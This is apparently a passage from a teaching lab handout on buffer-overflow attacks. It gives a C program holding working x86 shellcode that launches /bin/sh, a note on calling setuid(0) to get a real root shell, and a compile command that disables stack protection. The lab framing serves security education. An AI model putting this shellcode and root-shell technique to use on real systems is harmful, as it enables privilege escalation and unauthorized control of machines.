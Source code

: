 \begin{verbatim}
/* call_shellcode.c  */

/*A program that creates a file containing code for launching shell*/
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

const char code[] =
  "\x31\xc0"         /* Line 1:  xorl    %eax,%eax              */
  "\x50"             /* Line 2:  pushl   %eax                   */
  "\x68""//sh"       /* Line 3:  pushl   $0x68732f2f            */
  "\x68""/bin"       /* Line 4:  pushl   $0x6e69622f            */
  "\x89\xe3"         /* Line 5:  movl    %esp,%ebx              */
  "\x50"             /* Line 6:  pushl   %eax                   */
  "\x53"             /* Line 7:  pushl   %ebx                   */
  "\x89\xe1"         /* Line 8:  movl    %esp,%ecx              */
  "\x99"             /* Line 9:  cdq                            */
  "\xb0\x0b"         /* Line 10: movb    $0x0b,%al              */
  "\xcd\x80"         /* Line 11: int     $0x80                  */
;

int main(int argc, char **argv)
{
   char buf[sizeof(code)];
   strcpy(buf, code);
   ((void(*)( ))buf)( );
} 
\end{verbatim}
\textbf{Note:} In this lab we have relaced the {\tt bin/sh} program
with an older insecure shell that will inherit the setuid permissions
assocated with the {\tt stack} program.  Modern shells will use the
process real uid as their effective id, thereby making it more difficult
to obtain root shells from setuid programs.
However, more sophisticated shell code can run the following program to 
turn the real user id to {\tt root}. This way, you would have a real {\tt root} process.
\begin{verbatim}
  void main()
  { 
    setuid(0);  system("/bin/sh");
  }
\end{verbatim}
\noindent For this lab, we'll use the simpler shell code and and insecure /bin/sh program.

Please use the following command to compile the code (don't forget the 
{\tt execstack} option):

\begin{verbatim}
  $ gcc -m32 -z execstack -o call_shellcode call_shellcode.c
\end{verbatim}


